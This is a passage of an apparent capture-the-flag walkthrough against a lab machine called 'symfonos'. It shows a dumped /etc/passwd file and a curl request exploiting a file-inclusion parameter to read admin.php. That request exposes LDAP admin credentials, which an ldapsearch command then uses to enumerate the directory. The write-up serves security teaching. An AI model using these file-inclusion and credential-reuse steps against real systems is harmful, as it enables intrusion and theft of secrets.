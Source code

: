 ```bash
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
zeus:x:1000:1000:,,,:/home/zeus:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

It's worth also noting that php files don'e execute through this vulnerability, so a reverse shell can't be done. But reading php files is good because it means the admin.php file code can be retrieved, which appears to contain LDAP credentials.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.156/home.php?url=admin.php'
...
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD")
...
```

### 3. Enumerate LDAP some more
Use ldapsearch to query the domain for more information.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ldapsearch -x -D "cn=admin,dc=symfonos,dc=local" -w "qMDdyZh3cT6eeAWD" -p 389 -h 192.168.34.156 -b "dc=symfonos,dc=local" -s sub "(objectclass=*)"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
```